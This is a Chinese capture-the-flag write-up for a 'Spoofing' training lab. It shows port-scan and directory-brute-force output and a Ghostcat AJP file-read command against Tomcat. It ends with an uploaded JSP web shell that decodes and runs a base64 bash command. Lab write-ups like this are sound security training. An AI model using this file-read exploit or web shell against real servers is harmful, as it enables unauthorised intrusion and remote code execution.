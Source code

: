 # 春秋云境 - Spoofing

## 打点

fscan/kscan

```
ssh://39.99.141.133:22         ssh                        Info:UbuntuLinux;protocol2,Digest:"SSH-2.0-OpenSSH_8.2p1U,Port:22,ProductName:OpenSSH,Version:8.2p1Ubuntu4ubuntu0.5,OperatingSystem:Linux,Length:41
dns://39.99.141.133:53         dns                        Port:53,Digest:"DnsServer",Length:9
ajp13://39.99.141.133:8009     ajp13                      ProductName:ApacheJserv,Info:Protocolv1.3,Length:5,Version:i,Port:8009,Digest:"AB\x00\x01\t"
http://39.99.141.133:8080      后台管理                   FingerPrint:后台;Layui;Frame;HTML5,Digest:feff后台管理更换主体头部导航菜单切换天气信息,Length:7290,Port:8080,FoundDomain:www.cssmoban.com、www.chazidian.com
```

dirsearch

```
[10:15:53] 200 -   17KB - /docs/
[10:15:53] 404 -  733B  - /docs/maintenance.txt
[10:15:53] 404 -  730B  - /docs/swagger.json
[10:15:53] 404 -  733B  - /docs/export-demo.xml
[10:15:53] 404 -  737B  - /docs/html/index.html
[10:15:53] 404 -  730B  - /docs/updating.txt
[10:15:54] 302 -    0B  - /download  ->  /download/
[10:15:54] 200 -  132B  - /download/
[10:15:54] 404 -  781B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[10:15:54] 302 -    0B  - /examples  ->  /examples/
[10:15:54] 200 -   14KB - /examples/jsp/index.html
[10:15:54] 404 -  746B  - /examples/servlet/SnoopServlet
[10:15:54] 200 -    1KB - /examples/
[10:15:54] 200 -    6KB - /examples/servlets/index.html
[10:15:54] 200 -    1KB - /examples/servlets/servlet/RequestHeaderExample
[10:15:54] 200 -  658B  - /examples/servlets/servlet/CookieExample
[10:15:54] 200 -    1KB - /examples/websocket/index.xhtml
[10:15:55] 200 -  685B  - /examples/jsp/snp/snoop.jsp
```

在一些路由随便访问能够拿到 tomcat 的版本：`Tomcat Version 9.0.30`，[幽灵猫](https://book.hacktricks.xyz/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp): 

```sh
python tomcat.py read_file --webapp=root /WEB-INF/web.xml 39.99.141.133
```

然后看到有个 `/UploadServlet` 路由，发现可以直接上传文件并返回路径，那么思路也就很明确了：上传并包含 RCE。

上传 exp.jsp:

```jsp
<%
   // /upload/93f1c181b1a7a2e62af32df48e86470e/20231113112035407.jsp
   java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,CODE}|{base64,-d}|{bash,-i}").getInputStream();
   int a = -1;
   byte[] b = new byte[2048];
   out.print("<pre>");
   while((a=in.read(b))!=-1){
         out.println(new String(b));
   }
   out.print("</pre>");
%>
```
